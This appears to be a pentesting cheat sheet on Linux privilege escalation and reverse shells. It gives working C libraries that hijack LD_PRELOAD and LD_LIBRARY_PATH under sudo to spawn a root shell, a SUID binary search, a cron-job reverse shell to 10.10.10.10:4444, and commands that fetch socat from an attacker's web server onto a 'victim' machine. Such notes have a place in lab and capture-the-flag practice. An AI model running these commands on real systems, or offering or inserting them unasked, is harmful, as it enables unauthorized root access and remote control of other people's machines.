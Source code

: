 # PrivEscalation
***
* ### Better listener shell experience
```python -c 'import pty;pty.spawn("/bin/bash")'``` 


* ### List sudo capability of the current user
```sudo -l```


* ### Find interesting binaries that can exploit shell
```find / -perm /6000 2>/dev/null | grep '/bin'```


* ### https://gtfobins.github.io/ followed the interesting tools that can exploit 


* ### env_keep exploit when ```sudo -l``` and ```ddl <thetargetedprogram>``` to find its libraries

> #### - Take advantage of LD_PRELOAD
a. compile the library.
```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/preload.c```
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

b. sudo program with the LD_PRELOAD
```sudo LD_PRELOAD=/tmp/preload.so program-name-here```

> #### - Take advantage of LD_LIBRARY_PATH
a. find the libraries used by the program
```ldd /usr/sbin/<program> #for example```

b. compile the library with one of the libraries name
```gcc -o /tmp/<libraryname> -shared -fPIC /home/user/library_path.c```
```#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

c. sudo program with the LD_LIBRARY_PATH
```sudo LD_LIBRARY_PATH=/tmp <programname>```


### > Cron job if it's writable on /etc/crontab file (can use any available type of reverse shell http://revshells.com/ ):
```#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```


* ### Automated tools
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker


# Reverse Shell
***
* ### https://www.revshells.com/

* ### MonkeyPenTest

* ### Start webserver using python ```sudo python3 -m http.server 80``` then download files into victim shell 
Linux :"wget <LOCAL-IP>/socat -O /tmp/socat"
Windows: "Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe"

